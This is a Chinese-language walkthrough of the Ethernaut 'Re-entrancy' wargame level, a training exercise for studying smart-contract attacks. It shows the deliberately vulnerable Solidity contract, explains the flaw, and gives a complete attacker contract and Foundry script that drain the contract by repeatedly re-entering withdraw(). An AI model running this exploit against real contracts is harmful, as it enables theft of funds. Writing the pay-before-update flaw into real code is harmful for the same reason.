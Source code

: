 # Level 10 - Re-entrancy
## 題目
[Re-entrancy](https://ethernaut.openzeppelin.com/level/0x2a24869323C0B13Dff24E196Ba072dC790D52479)

### 通關條件
這一關的目標是偷走合約的所有資產。

### 提示
- 沒被信任的(untrusted)合約可以在你意料之外的地方執行程式碼
- fallback 方法
- 拋出(throw)/恢復(revert) 的通知
### 合約內容
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "openzeppelin-contracts-06/math/SafeMath.sol";

contract Reentrance {
    using SafeMath for uint256;

    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result,) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```
## 解題
這題目標是偷走合約裡的所有資產，所以先找到可以轉帳的 function
 19 行的 `withdraw(uint256 _amount)` 中有使用 `msg.sender.call` 來轉帳：
```solidity
function withdraw(uint256 _amount) public {
    if (balances[msg.sender] >= _amount) {
        (bool result,) = msg.sender.call{value: _amount}("");
        if (result) {
            _amount;
        }
        balances[msg.sender] -= _amount;
    }
}
```
提款函示 `withdraw(uint256 _amount)` 的流程：
1. 確認你的餘額（`balances[msg.sender]`）是否大於轉出的金額（`_amount`）
2. 將金額轉至你的地址
3. 從你的餘額中扣除金額

那我們可以動手腳的地方，就是在第 2 步把錢轉給我們的時候。因為 Solidity 在轉錢到別的合約時，會觸發接受方合約的 `receive()` 或是 `payable fallbakc()`，所以我們只要在 `receive()` 中再次呼叫題目的 `withdraw(uint256 _amount)`就可以產生新的提款請求，且上一筆也還沒扣除金額；造成不斷提款的效果。攻擊合約如下（會先朝關卡轉進一些錢以通過餘額判斷）：

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.6.12;

import "forge-std/Script.sol";
import "../src/Ethernaut Challenge/10_Re-entrancy.sol";

contract ExploitScript is Script {

    function run() external {
        vm.startBroadcast();

        ReEntrancyAttacker attacker = new ReEntrancyAttacker{value: 0.001 ether}(your_challenge_address);
        attacker.attack();

        vm.stopBroadcast();
    }
}

contract ReEntrancyAttacker {
    Reentrance public level10;

    constructor(address payable _challengeInstance) public payable {
        level10 = Reentrance(_challengeInstance);
    }

    function attack() external {
        level10.donate{value: 0.001 ether}(address(this));
        level10.withdraw(0.001 ether);
    }

    receive() external payable{
        level10.withdraw(0.001 ether);
    }
}
```

這種攻擊的思路有點像是 [Recursive Functions](https://www.geeksforgeeks.org/recursive-functions/) 的概念，讓合約不斷重複呼叫導致流程沒有照著預期進行，這種攻擊手法在智能合約中被稱做 **Reentrancy attacks**，關於這個攻擊手法更多詳細可以參考：
- [WTF Solidity 合约安全: S01. 重入攻击](https://github.com/AmazingAng/WTF-Solidity/tree/main/S01_ReentrancyAttack)
- [Reentrancy Attack in Smart Contracts](https://medium.com/chainwall-io/reentrancy-attack-in-smart-contracts-4837ed0f9d73)
- [Solidity by Example - Re-entrancy](https://solidity-by-example.org/hacks/re-entrancy/)